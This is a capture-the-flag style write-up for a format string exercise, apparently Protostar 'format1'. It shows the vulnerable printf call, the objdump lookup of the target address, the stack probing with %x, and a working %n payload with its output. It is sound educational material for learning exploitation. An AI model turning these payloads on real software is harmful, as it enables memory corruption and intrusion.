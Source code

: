 <h2>Goal</h2>

This exercise is the first real introduction into Format String exploits.  It will require sending a real format string character, such as `%s`, `%n`, `%d`, and `%x`. 


The vulnerability in this exercise is contained in the `printf()` statement.

```c
 printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
```
`printf()` is another special ANSI C function, the `string` variable is user input specified, because it is not checked it is vulnerable. These functions have linux MAN page entries, which has a helpful BUGS section. My built-in local MAN pages did not have the full MAN page with the BUGS section, but the full MAN page can be found online just by google searching for the printf man page.  You can read the full BUGS section on your own to understand, but basically if you provide a `%`, and a `%n` will cause `printf()` to write to memory.


<h2>Process</h2>

This task hints that `objdump -t` will be our friend. Since the goal here is to change the `target` variable lets use `objdump -t` on format1 executable and look for the `target` variable.  Look at the man page for objdump to understand what the `-t` switch does.

I found `target` at: `0x08049638`


Now let's find where we can overwrite memory.

```bash
./format1 `python -c 'print "BBBBBBBBB"+"%x "*150'`
```
Theres a few things to note about this statement to help understand the process.  More than 4 B's are provided for padding issues incase 4 B's we fill 3/4 bytes of a location. Also note that `"%x "*150` is sending 150 `"%x "` with a space.  This space will affect the padding, but makes the output easier to read for now (you will see what I mean when you try this).

This command generates the output:

```bash
./format1 `python -c 'print "BBBBBBBBB"+"%x "*150'`
BBBBBBBBB804960c bffff618 8048469 b7fd8304 b7fd7ff4 bffff618 8048435 bffff7de b7ff1040 804845b b7fd7ff4 8048450 0 bffff698 b7eadc76 2 bffff6c4 bffff6d0 b7fe1848 bffff680 ffffffff b7ffeff4 804824d 1 bffff680 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff698 c125e8ab eb71debb 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6c4 8048450 8048440 b7ff1040 bffff6bc b7fff8f8 2 bffff7d4 bffff7de 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7bb 1f bffffff2 f bffff7cb 0 0 0 e000000 d43727e8 aaea1f64 84aeaf0 69d05f91 363836 0 6f662f2e 74616d72 42420031 42424242 25424242 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825```
```
What we are looking for in here is the is the last location where 4 B's, represented by ASCII `42424242`.  The 150 is an arbitary value, if the B's do not occur, a larger amount of `%x` is needed. In this case `42424242` is not the last value, which means we need to narrow down to less. You can either count how many you need to remove or just trial and error, I removed 10, trying `"%x "*140`, then `"%x "*130` at which point I only needed to remove a few more chars.  

This command and the accompanying output shows the last values of all B's.
```bash
./format1 `python -c 'print "BBBBBBBBB"+"%x "*128'`
BBBBBBBB804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff820 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 c409ff39 ee5d4929 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff816 bffff820 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 ea000000 9fb61b27 8f231df2 4d82c3bb 69f6e340 363836 0 2f2e0000 6d726f66 317461 42424242
```

Now it is time to replace four B's with the address of target from before `0x08049638`. This will require a bit of trial and error but for me replacing the first 4 B's worked.
```bash
./format1 "`python -c 'print "\x38\x96\x04\x08BBBBB"+"%x "*128'`"
```

Output:

```
8�BBBBB804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff820 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 7765f619 5d314009 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff816 bffff820 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 a9000000 9b375abe 7b34444 48fd7a47 6928a4ca 363836 0 2f2e0000 6d726f66 317461 8049638
```
Looking at the end string we see the memory address we wanted is the last value. `0x8049638`

Now is to remove a `%x`, and add a `%n` as noted in the BUGS section of the MAN page for `printf()` which will write this value to memory.


<h2>Solution</h2>

```bash
./format1 "`python -c 'print "\x38\x96\x04\x08BBBBB"+"%x "*127+"%n "'`"
```

If you get padding errors and cannot seem to get the last four bytes to be the exact value, experiment with putting a couple of characters before and after, as well as removing some before and after the memory value.  Also remember the `"%x "`. THERE IS A SPACE. When replacing the final '%x' with `"%n "` remember to put in the space.

Output of solution code
```bash
./format1 "`python -c 'print "\x38\x96\x04\x08BBBBB"+"%x "*127+"%n "'`"
8�BBBBB804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff820 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 7cd9af5 2d992ce5 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff816 bffff820 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 3f000000 ad5d3300 d2c57c10 419c590b 69b087cf 363836 0 2f2e0000 6d726f66 317461  you have modified the target :)

```
